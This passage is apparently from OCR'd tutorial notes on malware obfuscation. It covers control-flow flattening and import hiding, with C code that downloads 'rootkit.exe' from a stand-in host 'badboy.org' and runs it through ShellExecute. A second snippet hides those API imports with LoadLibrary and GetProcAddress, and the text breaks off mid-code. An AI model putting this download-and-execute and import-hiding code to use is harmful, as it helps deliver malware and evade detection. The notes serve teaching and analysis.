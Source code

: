 This is called using:


```c
int a = 0;
alias(&a, &a);
```

### Control Flows Flattening (Chenxify)

Control flow between basic blocks is not handled led using jumps.
This can be done by leveraging a switch statement for instance.

1. The variable next is declared
2. Next is evaluated using a switch statement
3. State of next decides which basic block will be executed

This obfuscates the original control flow.

### Import Hiding

Used to hide imported DLLs that are required to execute API function.

Original code calling `URLDownloadToFile` from `urlmon` and `ShellExecute` from `shell32`.

```c
void main() {
    URLDownloadToFile(0, "http:/ /badboy.org/rootkit.exe", "C:\ rootkit.exe", 0, 0);
    ShellExecute(0, "open", "c:/rootkit.exe", 0, 0 ,0);
    }
```

Those inputs will be present in the IAT.


Alternatively, in obfuscated code the libraries can be retrieved using `LoadLibrary` and `GetProcAddress` from `kernel32` for instance.

1. Definition of function prototypes for the dynamically loaded functions
2. Load the library which contains the desired function using `LoadLibrary`
3. Get the address of the desired function from the library using `GetProcAddress`
4. Make use of the function
5. Free the loaded library from memory

```c
// Definition of function prototypes for the dynamically loaded functions
typedef HRESULT (WINAPI *URLDownloadToFile_t)(LPUNKNOWN, LPCSTR, LPCSTR, DWORD, LPBINDSTATUSCALLBACK);
typedef HINSTANCE (WINAPI *ShellExecuteA_t)(HWND, LPCSTR, LPCSTR, LPCSTR, LPCSTR, INT);


int main() {
    // Load urlmon.dll for URLDownloadToFile
    HMODULE hUrlmon = LoadLibrary("urlmon.dll");
    if (hUrlmon == NULL) {
        printf("Failed to load urlmon.dll\n");
        return 1;
    }


    // Load shell32.dll for ShellExecute
    HMODULE hShell32 = LoadLibrary("shell32.dll");
    if (hShell32 == NULL) {
        printf("Failed to load shell32.dll\n");
        return 1;
    }


    // Get the address of URLDownloadToFile
```